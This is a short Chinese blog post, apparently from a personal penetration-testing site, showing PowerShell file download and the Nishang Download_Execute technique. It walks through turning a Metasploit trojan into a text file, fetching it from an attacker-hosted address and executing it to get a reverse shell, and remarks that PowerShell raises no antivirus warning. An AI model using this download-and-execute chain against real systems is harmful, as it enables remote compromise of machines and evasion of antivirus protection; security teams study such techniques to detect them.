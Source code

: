 

###### powershell下载文件(nishang)

```python
$client = new-object System.Net.WebClient
$client.DownloadFile('#1', '#2')
#1是需要下载文件的url
#2是保存为本地文件的路径，包括文件名
例如：
$client.DownloadFile('https://www.2cto.com/net/201611/562900.html', 'D:/562900.html')


# 或者这个方法

$src = 'https://www.pstips.net/index.php'
$des = "$env:temp\index.php"
Invoke-WebRequest -uri $src -OutFile $des
Unblock-File $des


# 下载完之后就可以用啦


## 下载执行       Download_Execute

下载文本文件，然后转换为可执行文件执行

利用exetotext.ps1把msf生成的木马端`msf.exe`更改为`msf.txt`文件
ExetoTxt c:msf.exe  c:msf.txt

然后输入以下命令，调用`Download Execute`脚本下载并执行该文件
Download Execute http://192.168.110.128/msf.txt

这时，msf的监听端就会成功获得反弹回来的shell
```



> powershell是没有杀毒软件提示的

---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F/  

